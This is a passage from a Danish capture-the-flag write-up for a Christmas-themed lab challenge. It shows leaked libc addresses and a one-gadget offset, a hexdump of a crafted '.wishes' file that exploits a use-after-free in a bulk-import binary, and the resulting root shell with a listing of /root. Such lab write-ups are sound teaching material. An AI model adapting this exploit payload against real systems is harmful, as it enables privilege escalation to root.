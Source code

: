 Dette giver:

```text
0xc0, 0x8d, 0x65, 0xe3, 0x6a, 0x3f, 0x40, 0x40, 0x40, 0x40, 0x40, 0x40, 0x40, 0x40, 0x40, 0x40, 0x40, 0x40, 0x40, 0x40, 0x40, 0x40, 0x40, 0x40, 0x40, 0x40, 0x40, 0x40, 0x40, 0x40, 0x40, 0x40
0x80, 0xcd, 0x25, 0xa3, 0x2a, 0x7f, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0
addressOf__fopen:0x7f2aa325cd80
Magic Gadget on Kali:0x7f2aa32b3e20
Magic Gadget on Target:0x7f2aa3234226
````

Har en anden .wishes fil klar, der rent faktisk får eksekvering af en vilkårlig adresse ved at udnytte Use-After-Free:

```hex
7f 2a a3 23 42 26 indsættes omvendt (Little/Big-endian):

$ xxd nye_ønsker.wishes
00000000: 0221 0700 0000 0204 2100 0000 00fb 4141  .!......!.....AA
00000010: 4141 4141 4141 2642 23a3 2a7f 0000 4141  AAAAAA&B#.*...AA
00000020: 4141 4141 4141 4141 4141 4141 4121 0700  AAAAAAAAAAAAA!..
00000030: 0000 05                                  ...

```

Vi venter på at programmet henter vores nye .wishes fil ind, og:

```shell
storenisse@nisseoenskelisten:/bulkimport_ønsker$ ./bulkimport_ønsker.elf
| BulkImporter af ønsker - Copyright (c) 2020 Nisseværkstedet    |
\----------------------------------------------------------------/
# id
uid=0(root) gid=1000(storenisse) groups=1000(storenisse),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),117(lpadmin),118(sambashare)
# ls -al /root
total 28
drwx------  2 root root 4096 Nov 19 23:08 .
drwxr-xr-x 25 root root 4096 Nov 18 21:09 ..
-rw-------  1 root root   13 Nov 19 23:08 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
-rw-------  1 root root   36 Nov 11 13:50 .lesshst
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
----------  1 root root   54 Nov 18 21:27 root.txt
# cat /root/root.txt
```

<details><summary>Spoiler alert - Flaget til root:</summary></details>

